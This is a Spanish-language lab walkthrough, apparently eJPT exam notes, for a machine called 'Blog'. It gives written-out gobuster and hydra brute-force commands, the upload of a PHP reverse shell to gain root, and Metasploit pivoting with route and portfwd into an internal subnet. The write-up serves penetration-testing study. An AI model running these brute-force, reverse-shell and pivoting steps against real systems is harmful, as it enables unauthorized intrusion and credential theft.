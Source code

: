 **Enumeración**
```bash
gobuster dir -u http://192.168.1.67 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 20
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.67   http-post-form "/my_weblog/admin.php:^USER^=admin&password=^PASS^:Incorrect" -t 64 -F
```

**Explotación**
- Acceso admin → subida de `pentestmonkey` PHP reverse shell → **root**.

**Pivoting (metasploit)**
```bash
# Recibir shell desde Blog y convertirla a meterpreter
use multi/handler
# ...payload y LHOST configurados
use post/multi/manage/shell_to_meterpreter

# Ruteo y escaneo interno
route add 192.168.100.0/24 <SESSION_ID>
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.100.4

# Port forwarding
portfwd add -l 8081 -p 80 -r 192.168.100.4
portfwd add -l 222  -p 22 -r 192.168.100.4
ssh root@localhost -p 222   # credenciales obtenidas
```

**Takeaways**
- `autoroute` agiliza el acceso a subredes internas.
- `portfwd` permite usar herramientas fuera de metasploit (SSH/HTTP locales).

---

# Buenas prácticas aplicadas
- **Documentación continua** con capturas solo cuando aportan contexto.
- **Estandarización de comandos** (escaneo rápido → escaneo de versiones → scripts NSE).
- **Separación de credenciales** en archivos reutilizables para pruebas de password reuse.
- **Tratamiento de TTY** y uso de shells estables.
- **Control de tiempos**: priorizar vectores permitidos por eJPT (metasploit, fuerza bruta razonable, enumeración rápida).

